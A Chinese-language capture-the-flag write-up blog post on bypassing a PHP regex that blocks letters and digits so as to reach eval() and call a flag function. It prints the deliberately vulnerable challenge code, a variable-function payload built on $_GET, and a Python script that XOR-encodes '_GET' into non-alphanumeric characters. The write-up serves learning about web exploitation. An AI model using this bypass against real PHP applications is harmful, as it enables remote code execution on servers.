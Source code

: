 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      PHP 绕过 preg_match 数字与字母的正则表达式          # 标题
subtitle:   梅子酒天下第一  #副标题
date:       2018-08-06              # 时间
author:     RTL                     # 作者
header-img: img/post-bg-hacker.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
  - Writeup
  - Web
---
```


# Writeup

- [环境地址](http://www.rowtoolong.cn/MeizijiuPhp.php)
- **求不要日站**

```php
<?php
include 'MeizijiuPhpFlag.php';
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>40){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}else{
    highlight_file(__FILE__);
}
//$hint =  "php function getFlag() to get flag";
?>
```

- 听了梅子酒师傅吹了一天水，我的心情是崩溃的...我也想单手日站，我也想走向人生巅峰
- 刚开始拿到这个题，作为一个真小白，对 php 语法不懂，看了一下才明白，要绕过字母与数字的正则表达式，然后执行 getFlag() 函数，看着好简单？Maybe...

- 首先我先想到的是 JSFuck? ...40字符，溜了溜了
- 然后开始运用程序员的最基础技能，搜索引擎...有一个说利用 Array 强制转换字符串后变成 Array，然后通过 ++ 来得到每一个字符的...又是 40 字符限制了
- 之后我开始思考，想到了 变量可以用'_'命名，所以做了一些尝试，但是碍于能力有限，失败了
- 跟 Zhangflu 学到了根据数学知识 一个数异或另一个数两次可以得到这个数，但是将    getFlag 编码后，只会生成字符串，并不会执行该函数，思路断了...

- 一大佬发了一个 payload, 未转码前的为

```sql
code=$_='_GET';${$_}[_]();&_=getFlag
```

- 我被彻底的惊艳到了...真的很强，很巧妙，为很容易理解，在此不多赘述
- 将 _GET 转码后得到一段字符，转码脚本如下

```py
# -*- coding:utf8 -*-

get = "_GET"
code = "~`!@#$%&*()-=+_[]{};:<>,.?/|"

result_1 = ""
result_2 = ""

for x in get:
  for y in code:
    if chr(ord(x) ^ ord(y)) in code:
      result_1 += y
      result_2 += chr(ord(x) ^ ord(y))
      break

print(result_1 + '^' + result_2)



```